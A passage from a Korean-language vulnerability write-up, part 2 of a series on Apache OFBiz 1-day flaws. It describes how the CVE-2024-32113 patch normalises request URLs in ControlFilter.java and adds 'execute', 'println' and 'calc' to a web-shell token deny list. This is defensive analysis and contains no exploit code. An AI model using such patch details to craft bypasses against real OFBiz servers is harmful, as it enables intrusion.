

# Patch

`CVE-2024-32113` 취약점이 패치된 버전(18.12.13)을 살펴보면, `ControlFilter.java` 파일에서 요청된 URL을 정규화(`normalize`)한 후, 원래 URL과 비교하여 다를 경우 예외를 발생시키는 방식으로 패치되었습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654](https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-ebc423ab3f878bfaf4d0cbbf5b1efa8f64706b199f8ae019609505d8c45ec654)
> 



또한, `security.properties` 파일에서는 `deniedWebShellTokens` 필터링에 `execute`, `println`, `calc` 키워드가 추가된 것을 확인할 수 있습니다.

> [https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-5d4b97fff9ee1d57e4c1d8274847e196ba5404f367afb3e39025f583a3e95e1a](https://github.com/apache/ofbiz-framework/compare/release18.12.12...release18.12.13#diff-5d4b97fff9ee1d57e4c1d8274847e196ba5404f367afb3e39025f583a3e95e1a)
> 



# Continue…

다음은 두 번째 CVE 취약점인 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md) 에 대해 알아보겠습니다.

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

---

# References

- https://nvd.nist.gov/vuln/detail/CVE-2024-32113
- https://issues.apache.org/jira/browse/OFBIZ-13006
- https://xz.aliyun.com/news/14170
- https://www.sonicwall.com/blog/sonicwall-discovers-second-critical-apache-ofbiz-zero-day-vulnerability